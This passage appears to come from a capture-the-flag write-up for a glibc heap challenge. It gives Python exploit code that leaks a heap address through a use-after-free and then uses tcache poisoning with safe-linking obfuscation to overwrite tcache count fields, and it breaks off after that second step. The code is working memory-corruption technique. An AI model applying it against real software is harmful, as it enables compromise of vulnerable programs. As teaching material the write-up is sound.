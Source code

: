 My idea was:
- Leak heap address by failing the verification in the "verify" menu and exploiting Use-After-Free (UAF).

```python
add(0, b"AAAA\x00")
add(1, b"BBBB\x00")
add(2, b"CCCC\x00")
add(3, FLAG_LOCATION) # also used for preventing chunk consolidate with top chunk

delete(0)
# tcachebins [0x30]: CHUNK_0 (CHUNK_0 will contain : CHUNK_0 address >> 12)

resp = edit(0, write_data=False)
print(resp)
LEAKED_HEAP = u64(resp.ljust(8, b"\x00")) << 12
HEAP_BASE = LEAKED_HEAP - 0x1000
print("LEAKED_HEAP              :", hex(LEAKED_HEAP))
print("HEAP_BASE                :", hex(HEAP_BASE))
CHUNK = []
for i in range(4): # 0 - 3
    CHUNK.append(LEAKED_HEAP + 0xe30 + (0x30*i))

print("CHUNK[0]                 :", hex(CHUNK[0]))
print("CHUNK[1]                 :", hex(CHUNK[1]))
print("CHUNK[2]                 :", hex(CHUNK[2]))
print("CHUNK[3]                 :", hex(CHUNK[3]))
```
<br>

- Set `counts` in tcache_perthread_struct for tcachebins[0x90] to 7, so when a 0x90-sized chunk is freed, it will be placed in the unsorted bin.

```python
add(0, b"AAAA")

delete(0)
edit(0, p64(obf(LEAKED_HEAP, 0)), p64(0)+p64(0xdeadbeef))
delete(0)

edit(0, p64(obf(CHUNK[0], CHUNK[0])), p64(obf(CHUNK[0], HEAP_BASE+0x10)))
add(0, p64(obf(CHUNK[0], HEAP_BASE+0x10)))
p = b""
p += p16(0) # 0x20
p += p16(1) # 0x30
p += p16(0) # 0x40
p += p16(0) # 0x50
p += p16(0) # 0x60
p += p16(0) # 0x70
p += p16(0) # 0x80
p += p16(7) # 0x90 (fill counts a.k.a tcachebins counter for 0x90 bins )

add(4, p)
```
<br>
